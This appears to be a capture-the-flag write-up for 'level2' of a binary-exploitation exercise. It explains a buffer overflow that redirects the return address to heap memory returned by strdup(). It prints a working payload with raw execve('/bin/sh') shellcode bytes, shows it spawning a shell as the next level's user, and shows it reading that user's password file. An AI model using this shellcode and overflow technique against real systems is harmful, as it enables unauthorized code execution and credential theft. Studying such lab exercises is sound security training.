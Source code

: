 # level2

In this case, we have to use a shellcode. That's because no shell is executed in that program.
To do this, we need to overflow the `buffer` with three things:
- the shellcode itself which will execute `execv("/bin/sh")` ([code found here](https://shell-storm.org/shellcode/files/shellcode-575.php))
- some padding
- the address to the shellcode

Now, there is a small problem: we can see that we cannot overflow the return address of the `buffer` with a pointer on the stack because it's manually checked.  
We will instead overflow the return address with a pointer on the heap.  
That's where `strdup()` comes in. We will use its return address.  

We can see that there's a padding of `88 bytes` from ghe start of the `buffer` to the address to overwrite.
Thus, the payload needs to be `88 bytes` long.  

We will divide it into four parts:

<!-- ret pointer offset += 88 off $esp -->


Structure | noop | payload | noop | addr
--- | --- | --- | --- | ---
Offset | 30 | 21 | 29 | 8


Using `ltrace` program, we can see that `strdup()`'s return address is `0x804a008`

We just have to write the payload :
```sh
$> python -c 'print("\x90"*30 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90"*29 + "\x08\xa0\x04\x08")' > /tmp/payload

$> cat /tmp/payload - | ./level2
$ whoami
level3
$ cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
